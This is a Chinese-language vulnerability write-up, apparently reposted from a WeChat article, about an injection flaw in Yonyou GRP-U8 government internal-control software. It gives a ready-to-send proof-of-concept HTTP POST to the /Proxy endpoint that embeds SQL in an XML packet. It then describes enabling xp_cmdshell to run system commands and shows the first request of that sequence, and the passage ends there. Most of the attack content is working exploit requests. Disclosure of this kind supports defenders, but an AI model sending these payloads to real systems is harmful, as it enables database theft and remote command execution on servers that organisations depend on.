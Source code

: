 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3Tevu8dc_Cin6MTEUZvxFg)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

**用友 GRP-u8 存在 XXE 漏洞，该漏洞源于应用程序解析 XML 输入时没有进制外部实体的加载，导致可加载外部 SQL 语句，以及命令执行**

**二:  漏洞影响🐇**

**用友 GRP-U8 行政事业内控管理软件（新政府会计制度专版）**

**三:  漏洞复现🐋**

**漏洞利用 POC 请求包**

```
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按 F12 查看源代码可以得到 SQL 语句查询结果

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7pCmG9kTVVuzBDdQgkQa6qDWfWEcn9ouZicLReHKCQlY5N0KsBxY2PZgWkIIhENR0tMYddRujbs2w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7pCmG9kTVVuzBDdQgkQa6qc205lSqDwt8yQMu2ofsicDOBtg4FMPiaV4P5aXtSWCeTL6d8p35mo7ww/640?wx_fmt=png)

也可以调用 **xp_cmdshell** 来执行系统命令 (大部分此系统为 **windows**)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7pCmG9kTVVuzBDdQgkQa6qObKCadHMc25vOph5tvvzwiaEgdqKZt5gmkf27a1nvK1C7375zBUKpuQ/640?wx_fmt=png)

```
注意：大部分默认是不开启 xp_cmdshell 模块的
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7pCmG9kTVVuzBDdQgkQa6q3Kp1iapYcpGgQXaHCibWz1icY6CLRbRDibQwoTauT0sfNtc4vypF8oMu5g/640?wx_fmt=png)

可以使用如下方法打开 **xp_cmdshell 方法**

将如下 POST 数据按顺序发送 (**注意 master 改为当前数据库名**)

```
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

